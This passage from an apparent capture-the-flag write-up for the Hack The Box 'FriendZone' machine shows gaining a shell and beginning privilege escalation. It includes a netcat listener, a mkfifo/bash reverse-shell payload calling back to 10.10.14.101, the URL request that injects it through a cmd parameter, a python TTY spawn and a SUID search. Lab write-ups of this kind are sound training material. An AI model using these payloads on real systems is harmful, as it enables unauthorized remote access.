 ```bash
rlwrap nc -lnvp 9009
```


And use the following payload to get a shell:

`rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.101 9009 >/tmp/f`. 


I just use Burp's Encoder to URL-encode the payload and send it via the following request: 

`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/test&cmd=<payload>


Which gives me a shell:

![shell-39](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/FriendZone/img/shell-39.png)


## Privilege Escalation


After I land on a shell, I spwan a TTY shell with:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


Next, I start hunting for quick wins. I try to list any sudo permissions but I get prompted for credentials. Then, I look for any SUID binaries with:


```bash
find / -perm -4000 2>/dev/null
```
